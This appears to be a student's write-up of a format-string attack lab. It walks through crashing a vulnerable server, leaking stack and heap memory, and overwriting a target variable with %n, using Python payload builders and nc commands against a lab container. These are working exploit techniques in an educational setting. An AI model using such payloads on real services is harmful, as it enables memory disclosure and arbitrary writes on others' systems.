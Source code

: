 # Format String Attack Lab

## Task 1: Crashing the Program

Crashing the program will be a very simple task. Since we have control over the
format string parameter of printf, we can pass to it "%s", which tries to read
from the address on top of the stack, and since it is very likely that this
address is not a valid one, the program will seg fault.

```sh
$ nc 10.9.0.5 9090
%s
^C
```

Server output:

```text
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffab1800
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 3 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffab1728
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

There is no Returned Properly message, so we conclude that we successfully
crashed the program.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

By consulting the manual pages for printf, we see that the "%x" format
specifier prints in hexadecimal the value at the top of the stack. We also know
that our format string itself is stored on the stack, so if we "dig up" the
stack enough with "%x", we will eventually find our string. We will use python
to generate the string for us.

```sh
$ python3 -c "print('AAAA' + '%x.'*100)" | nc 10.9.0.5 9090
^C
```

Server output:

```text
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffa39fc0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 305 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffa39ee8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | AAAA11223344.1000.8049db5.80e5320.80e61c0.ffa39fc0.ffa39ee8.80e62d4.80e5000.ffa39f88.8049f7e.ffa39fc0.0.64.8049f47.80e5320.4ab.ffa3a0f1.ffa39fc0.80e5320.9896720.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.bc1d2300.80e5000.80e5000.ffa3a5a8.8049eff.ffa39fc0.131.5dc.80e5320.0.0.0.ffa3a674.0.0.0.131.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

If we count it up, we see that our "41414141" appears after 64 "%x". We can
also access it directly with "%64\$x

### Task 2.B: Heap Data

This task will be very similar to the last one, but instead if placing 'AAAA'
at the start of our payload, we will place the address we want to read (which
by looking at the server logs we determine it to be 0x080b4008) and replace the
last "%x" with a "%s", which reads a string from the address until a null byte
is found.

```python
$ cat build_string.py
#!/usr/bin/python3
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*63 + "%s"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

```sh
$ ./build_string.py && cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 |@
                1122334410008049db580e532080e61c0fff21230fff2115880e62d480e5000fff211f88049f7efff212300648049f4780e53205dc5dcfff21230fff212309af4720000000000000000000000000080f99f0080e500080e5000fff218188049efffff212305dc5dc80e5320000fff218e40005dcA secret message
```

As we can see, the string stored at this address is "A secret message".

### Task 3.A: Change the value to a different value

In this task, we are asked to write anything to an arbitrary address. To do
this, in similarity to previous tasks, we put the address we want to write to
at the start of the payload, followed by, in this case, 63 "%x" and lastly,
instead of "%s" like we used in the last task, we use "%n", which according to
the manual writes the number of bytes printed so far to the address at the top
of the stack. Our script will look like this:

```python
$ cat build_string.py
#!/usr/bin/python3
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*63 + "%n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

```sh
$ ./build_string.py && cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | The target variable's value (after): 0x000000ec
```

We have successfully written to target the number 0xec, which corresponds to
the number in hexadecimal of the bytes printed out by the printf function.

### Task 3.B: Change the value to 0x5000

This task is very similar to the last one, but instead of printing out 0xec
bytes before our "%n", we have to write 0x5000 bytes. printf offers a very
convenient way of doing this in the form of padding: we can add padding to our
last "%x" to inflate the number of bytes written. This padding will be equal to
0x5000 - 0xec.

```python
$ cat build_string.py
#!/usr/bin/python3
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*62 + "%" + str(0x5000 - 0xec) + "x" + "%n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content
```

```sh
$ ./build_string.py && cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 | The target variable's value (after): 0x00004ffd
```

Hmm wierd, we are 3 bytes off. No problem, we'll just change our padding to add
3 more bytes.

```python
s = "%x"*62 + "%" + str(0x5000 - 0xec + 0x3) + "x" + "%n"
```

```sh
$ ./build_string.py && cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 | The target variable's value (after): 0x00005000
```
